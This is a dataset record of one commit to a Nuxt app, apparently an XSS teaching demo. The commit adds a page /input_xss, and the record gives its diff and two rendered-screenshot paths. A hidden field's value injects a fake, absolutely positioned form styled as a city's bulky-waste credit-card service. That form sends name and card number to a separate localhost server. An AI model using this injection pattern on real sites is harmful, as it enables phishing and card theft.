

Before and after one commit to watanata/nuxt2-tar, a Nuxt app: page /input_xss in a window 1280 px wide. Before the commit this address had no page. Shown: the top 300 px of the page, without its empty margins (0-685 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
add trap-page for XSS form injection

```diff
--- /dev/null
+++ b/pages/input_xss.vue
@@ -0,0 +1,12 @@
+<template>
+  <div>
+    <p>〇〇市の粗大ごみ受付がクレジットカードでできるようになっていた。これは便利です
+    <form action="http://localhost:3000/input" method="POST">
+      <input name="name" type="hidden" value='
+      ></form><form style=top:5px; left=5px;position:absolute;z-index:99;background-color:white action=http://localhost:3333/hoge method=POST>粗大ごみの受付がクレジットカード対応しました。</br>氏名 <input size=20 name=name></br>カード番号 <input size=20 name=card></form>'>
+
+      <input style="cursor:pointer;text-decoration:underline;color:blue;border:node;background:transparent;font-size:100%;" type="submit" value="〇〇市粗大ごみ申し込みセンター">
+    </form>
+  </div>
+
+</template>
```
